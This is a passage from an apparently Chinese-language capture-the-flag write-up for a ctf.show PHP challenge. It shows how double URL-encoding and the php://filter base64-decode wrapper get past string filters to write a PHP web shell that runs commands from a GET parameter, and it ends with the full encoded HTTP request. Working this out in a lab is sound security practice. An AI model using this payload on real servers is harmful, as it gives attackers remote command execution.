 ```
# aa为补齐字符phpdieaa共8位满足base64解码条件，补齐字符只要再base64编码字符集中即可
content=aaPD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO3N5c3RlbSgkX0dFVFsnY21kJ10pOw==
PD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO3N5c3RlbSgkX0dFVFsnY21kJ10pOw== 
--> <?php highlight_file(__FILE__);system($_GET['cmd']);
```

既然要使用base64解码扰乱原始字符就使用了filter伪协议：

```
php://filter/write=convert.base64-decode/resource=1.php
file要经过两次url编码因为file_put_contents(urldecode($file)
中间件解码了一次上述代码有解码了一次
file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30
另外由于file要进行两次编码，如下几个替换都无效，因为在替换时的file还有一层url编码
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
```

完整payload（post参数要url编码）

```http
POST /?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30 HTTP/1.1
Host: 1b09a7e9-c2f5-4bc1-80ea-d0ba2f2918b3.challenge.ctf.show
Content-Length: 86
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="130", "Microsoft Edge";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://1b09a7e9-c2f5-4bc1-80ea-d0ba2f2918b3.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://1b09a7e9-c2f5-4bc1-80ea-d0ba2f2918b3.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

content=aaPD9waHAgaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pO3N5c3RlbSgkX0dFVFsnY21kJ10pOw%3D%3D
```
